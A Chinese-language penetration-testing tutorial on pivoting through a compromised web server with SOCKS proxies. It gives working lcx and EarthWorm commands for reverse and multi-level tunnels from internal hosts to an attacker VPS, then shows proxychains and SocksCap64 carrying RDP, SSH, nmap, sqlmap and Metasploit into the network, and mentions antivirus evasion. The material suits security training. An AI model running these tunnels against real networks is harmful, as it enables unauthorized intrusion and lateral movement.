内网漫游之SOCKS代理大结局

- 引言 -
在实际渗透过程中，我们成功入侵了目标服务器。接着我们想在本机上通过浏览器或者其他客户端软件访问目标机器内部网络中所开放的端口，比如内网的3389端口、内网网站8080端口等等。传统的方法是利用nc、lcx等工具，进行端口转发。
适用端口转发的网络环境有以下几种：
1. 服务器处于内网，可以访问外部网络。
2. 服务器处于外网，可以访问外部网络，但是服务器安装了防火墙来拒绝敏感端口的连接。
3. 服务器处于内网，对外只开放了80端口，并且服务器不能访问外网网络。
对于以上三种情况，lcx可以突破1和2二种，但是第3种就没有办法了，因为lcx在使用中需要访问外部网络。
这里的第3种就可以用到我们今天重点要讲的SOCKS代理。Socks是一种代理服务，可以简单地将一端的系统连接到另外一端。支持多种协议，包括http、ftp请求及其它类型的请求。它分socks 4 和socks 5两种类型，socks 4只支持TCP协议而socks 5支持TCP/UDP协议，还支持各种身份验证机制等协议。其标准端口为1080。
Socks在渗透测试中使用特别广泛，能够很方便让我们与目标内网计算机之间通信，避免了一次又一次使用端口转发的麻烦。比较常见的Socks5工具有htran，reGeorg等，socks4的有metasploit。
在实际渗透测试过程中，当我们成功的拿下第一台堡垒机后，此时我们又想对目标内网进一步渗透测试时，socks能够帮助我们更加快速的，方便的访问目标内网的各种资源，比传统的端口转发更加实用。
- 渗透环境 -
此次渗透的环境：左侧是我的个人电脑（内网）和一台有公网IP的VPS，右侧是一个小型内网。假设我们现在已经渗透了一台WEB服务器，该服务器内网IP为10.48.128.25。
经过扫描，右侧小型内网网络结构如图所示。其中我们控制的WEB服务器是连接外网和内网的关键节点，内网其他服务器均不能直接连接。图是我老婆用CAD画的，还不错吧！: )

- socket端口转发 -
首先我们介绍下最为经典也是使用最为频繁的端口转发工具lcx，lcx.exe 是一个基于 socket 套接字实现的端口转发工具，它是从 linux 下的htran 工具移植到windows平台的。一条正常的socket隧道必具备两端，一侧为服务端，它会监听一个端口等待客户端连接；另一侧为客户端，通过传入服务端的ip和端口，才能主动连接到服务器。
比如要转发上图中目标机器10.48.128.25的3389端口：
1、在目标机器10.48.128.25上执行
1 | lcx.exe –slave 139.XXX.XX.113 9000 10.48.128.25 3389 |
此段命令意思是将目标机器3389端口的所有数据都转发到公网VPS的9000端口上。
2、在VPS上执行
1 | lcx.exe –listen 9000 5555 |
此段命令意思是将本机9000端口上监听到的所有数据转发到本机的5555端口上。
3、在左侧的My PC机上用mstsc登陆139.XXX.XX.113:5555或者在VPS上用mstsc登陆127.0.0.1:5555。即可访问右侧内部网络中10.48.128.25服务器的3389端口。
Lcx工具实现的是一对一的端口转发，如果想访问右侧网络中列出的所有端口，就必须一次次的重复lcx的转发过程，效率相当低下。而且服务器都是有装有杀毒软件的，即使有做免杀也不能保证绕过所有的杀毒。
像这种情况就可以用到socks代理，在10.48.128.25这台既能连接互联网又能连接内网的WEB服务器上架设代理。
- SOCKS代理工具 -
socks代理其实也可理解为一个增强版的 lcx，它在服务端监听一个服务端口，当有新的连接请求时会从socks协议中解析出访问目标的URL的目标端口，再开始执行lcx的具体功能。网络上Socks代理工具有很多，选用的时候尽可能使用无GUI界面的工具，还有尽可能不需要安装其他依赖软件，能够支持多平台操作系统的更佳。

1. Earthworm 工具网址：http://rootkiter.com/EarthWorm
EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内,强烈推荐使用。
目前已经有了最新版Termite，工具网址：http://rootkiter.com/Termite/
2.reGeorg 工具网址：https://github.com/NoneNotNull/reGeorg
reGeorg是reDuh的升级版，主要是把内网服务器的端口通过http/https隧道转发到本机，形成一个回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。它利用webshell建立一个socks代理进行内网穿透，服务器必须支持aspx、php或jsp这些web程序中的一种。
3.sSocks 工具网址：http://sourceforge.net/projects/ssocks/
sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13。
4.SocksCap64 工具网址：http://www.sockscap64.com (需翻墙)
SocksCap64是一款在windows下相当好使的全局代理软件。SocksCap64可以使Windows应用程序通过SOCKS代理服务器来访问网络而不需要对这些应用程序做任何修改, 即使某些本身不支持SOCKS代理的应用程序通过SocksCap64之后都可以完美的实现代理访问。
5.proxychains 工具网址：http://proxychains.sourceforge.net/
Proxychains是一款在LINUX下可以实现全局代理的软件，性能相当稳定可靠。在使任何程序通過代理上網，允許TCP和DNS通過代理隧道，支持HTTP、SOCKS4、SOCKS5類型的代理服務器，支持proxy chain，即可配置多個代理，同一個proxy chain可使用不同類型的代理服務器。
- 架设代理服务端 -
在实际渗透测试中，我经常使用的socks工具是EW，该程序体积很小，LINUX的只有30KB左右，Windows下面的也只有56KB，而且不需要再做其他设置，真的是居家旅行之必备之物。
下载打开EW软件文件夹，可以看到有针对各种系统用的程序，如下图：

根据你实际的操作系统选用就可以了，因为我们此次渗透是WINDOWS的所以就用ew_for_win.exe这个程序了。EW的使用也非常简单，该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。
首先介绍用于普通网络环境的正向连接ssocksd命令和反弹连接rcsocks命令、rssocks命令，再介绍用于复杂网络环境的多级级联。
# 简单解释下正向代理和反向代理的区别，正向代理就是我们主动通过proxy来访问目标机器，反向代理就是目标机器通过proxy主动来连接我们。
1. 正向socks v5服务器 适用于目标机器拥有一个外网IP
1 | ew –s ssocksd –l 888 |

上述命令架设了一个端口为888，SOCKS的代理。然后使用sockscap64添加这个IP的代理就可以使用了。比较简单就不演示了。
2. 反弹socks v5服务器 适用于目标机器没有公网IP，但可访问内网资源
A． 先上传ew 到左侧ip地址为139.XXX.XX.113公网VPS的C盘上，运行下列命令：
1 | ew -s rcsocks -l 1008 -e 888 |

该命令的意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给888端口
B． 上传EW到右侧IP地址为10.48.128.25的WEB服务器C盘上，运行下列命令：
1 | ew -s rssocks -d 139.XXX.XX.113 -e 888 |

该命令的意思是在10.48.128.25上启动SOCKS V5服务，并反弹到IP地址为139.XXX.XX.113左侧公网VPS的888端口上。
C． 返回我们公网VPS的CMD界面下，可以看到已经反弹成功了。现在就可以通过访问139.XXX.XX.113:1008端口使用在右侧10.48.128.25架设的SOCKS5代理服务了。

3.二级网络环境（一）
假设我们获得了右侧A主机和B主机的控制权限，A主机配有2块网卡，一块连通外网，一块10.48.128.25只能连接内网B主机，无法访问内网其它资源。B主机可以访问内网资源，但无法访问外网。

A.先上传ew到B主机，利用ssocksd方式启动888端口的SOCKS代理，命令如下：
1 | ew -s ssocksd -l 888 |

B.上传ew到右侧A主机，运行下列命令：
1 | ew -s lcx_tran -l 1080 -f 10.48.128.49 -g 888 |

该命令意思是将1080端口收到的代理请求转交给B主机（10.48.128.49）的888端口。
C.可以通过访问A主机外网139.XXX.XX.113:1080来使用在B主机架设的socks5代理。
4.二级网络环境（二）
假设我们获得了右侧A主机和B主机的控制权限，A主机没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。

这个操作分为4步，用到lcx_listen和lcx_slave命令：
A. 先上传ew 到左侧公网VPS上，运行下列命令：
1 | ew –s lcx_listen –l 10800 –e 888 |

该命令意思是在公网VPS添加转接隧道，将10800端口收到的代理请求转交给888端口。
B.上传ew到右侧B主机，并利用ssocksd方式启动999端口的socks代理，命令如下：
1 | ew -s ssocksd -l 999 |

C.上传ew 到右侧A主机，运行下列命令：
1 | ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.49 -g 999 |

该命令意思是在A主机上利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来。
D. 返回我们公网VPS的CMD界面下，可以看到已经连接成功了。

现在就可以通过访问公网VPS地址 139.XXX.XX.113:10800来使用在B主机架设的socks5代理。
5.三级网络环境
三级网络环境在实际渗透中用的比较少，也比较复杂，现在我们来一个个的讲解下三级级联的用法。
假设渗透场景：右侧内网A主机没有公网IP但可以访问外网，B主机不能访问外网但可以被A主机访问、C主机可被B主机访问而且能够访问核心区域。

A.在左侧公网VPS上运行命令，将1080端口收到的代理请求转交给888端口：
1 | ew -s rcsocks -l 1080 -e 888 |
B.在A主机上运行命令，将公网VPS的888端口和B主机的999端口连接起来：
1 | ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.12 -g 999 |
C.在B主机上运行命令，将999端口收到的代理请求转交给777端口：
1 | ew -s lcx_listen -l 999 -e 777 |
D.在C主机上启动SOCKS V5服务，并反弹到B主机的777端口上，命令如下。
1 | ew -s rssocks -d 10.48.128.12 -e 777 |
E.在MY PC上可以通过访问公网VPS 139.XXX.XX.113:1080来使用在C主机架设的socks5代理。
整个数据流向是：SOCKS V5 → 1080 → 888 →999 →777 → rssocks
0×06 内网漫游
1.Windows下使用sockscap64
首先下载安装好SocksCap64后，以管理员权限打开。默认浏览器已经添加。

使用比较简单，点击代理，点击添加一个代理，然后设置下代理服务器IP和端口就可以使用了。设置好后可以点击软件右边有个闪电的小圆点，测试下当前代理服务器是否可以连接，如下图，连接是正常的。

这个时候就可以选择浏览器，右击在代理隧道中运行选中的程序，然后我们就可以自由访问我们想访问的内网资源了，比如我们可以访问10.48.128.22路由的80端口，如下图：


可以看到我们已经成功的通过socks代理漫游内部网络WEB资源，我们接着看看还有哪些程序能够利用SOCKSCAP的程序通过代理访问内网中的哪些端口了？
尝试登陆10.48.128.20的3389端口，可以看到成功登陆。

我们可以在我们的公网VPS的命令行下可以看到，不停的有数据的交换。再尝试PUTTY访问10.48.128.49的22端口，成功登陆。


再试试VNC端口，因为10.48.128.25开了5900端口，OK，成功访问。大家可以看到这种利用SOCKS代理实现一对多端口映射的优势立刻就体现了出来，效率倍增。

但是将扫描工具进行SOCKSCAP代理，然后对内网网段进行扫描，我没有尝试成功，大家可以多多的尝试各种工具!我在代理下用扫描工具一般都是用proxychains，大家接着往下看！
2.LINUX下使用proxychains
KALI系统已经预装好了这个工具，我们稍作配置就可以使用，打开终端，输入命令：
vi /etc/proxychains.conf# 顺便补充下LINUX下Vim编辑器简单使用方法
使用上面命令进入文本后，摁“i”键就进入了编辑模式，可以对文本进行修改，修改完后摁esc 然后摁住shift+； 左下角会出现一个冒号，如下图。

这个时候输入wq，摁回车保存并退出。
第一步先删掉dynamic_chain前面的注释符（也就是#符号），如下图

然后拉到最下面，把默认是socks4 127.0.0.1 9050 的地方改成我们架设的代理服务139.XXX.XX.113 1008

这样就设置完成了，我们接着测试下代理服务是否正常，在终端输入
proxyresolv www.baidu.com

此时如上图所示会显示未找到命令，不要担心，继续在终端输入下列命令
cp /usr/lib/proxychains3/proxyresolv /usr/bin/
然后再次测试下代理服务器是否正常，如下图，显示OK就表示配置正确了。

现在我们就可以愉快的畅游内网了，照例先访问内网网站试试看，我们先在终端输入proxychains firefox启动火狐浏览器。

等个几秒钟，火狐就打开了，我们还是访问10.48.128.22路由的80端口看看。

顺利打开，可以看到kali里面的数据不停的交换，我们再打开10.48.128.48看看，也是可以访问的，一个Zend服务器测试页。

接着就到了我们的重头戏了，我们找几个具有代表性的工具试试，先看看NMAP和SQLMAP好使不!


如上图所示，均表示相当好使，我们最后再试试大杀器-Metasploit可不可以用。

我们随便找个IP扫扫看端口，如下图所示，已经开始扫描了。

其他工具就不再一一介绍了。